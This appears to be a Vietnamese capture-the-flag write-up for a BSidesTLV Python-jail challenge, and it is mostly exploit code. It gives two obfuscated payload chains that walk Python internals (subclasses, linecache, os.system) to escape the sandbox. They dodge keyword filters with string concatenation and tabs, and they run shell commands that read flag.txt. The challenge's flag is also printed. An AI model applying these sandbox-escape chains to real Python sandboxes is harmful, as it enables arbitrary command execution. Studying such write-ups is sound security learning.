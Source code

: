 Chạy <code>nc challenges.bsidestlv.com 3030</code> vào command<br/>
<strong> CÁCH 1</strong><br/>
Chạy lần lượt các cmd như sau: <strong>(READ ME lỗi hiển thị, xem chi tiết file để lấy command)</strong><br/>
<code>__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))</code><br/>
<code>__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))</code><br/>
<code>__builtins__.__setattr__("war",sub( ).__getitem__(58))</code><br/>
<code>__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))</code><br/>
<code>__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))</code><br/>
<code>__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))</code><br/>
<code>__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))</code><br/>
<code>__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))</code><br/>
<code>__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))</code><br/>
<code>run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))</code><br/>
Cờ là <code>BSidesTLV{I_AM_The_Python_Master}</code><br/>
<strong>CÁCH 2</strong>
Chạy cmd <strong>(READ ME lỗi hiển thị, xem chi tiết file để lấy command)</strong><br/>
<code>(1).__getattribute__('__init'.__add__('__')).__objclass__.__getattribute__((1).__getattribute__('__init'.__add__('__')).__objclass__,'__subclasses'.__add__('__'))(    ).__getitem__(59).__getattribute__((1).__getattribute__('__init'.__add__('__')).__objclass__.__getattribute__((1).__getattribute__('__init'.__add__('__')).__objclass__,'__subclasses'.__add__('__'))(    ).__getitem__(59),'__init'.__add__('__')).__getattribute__('func'.__add__('_globals')).__getitem__('line'.__add__('cache')).__getattribute__('o'.__add__('s')).__getattribute__('sy'.__add__('stem'))('/bin/ca?    $(find    /    -name    fla?.txt)')</code><br/>
<strong>Lưu ý ở cả 2 cách thì dấu cách đều phải tự tay thay lại bằng dấu tab không thì không ra kết quả</strong>

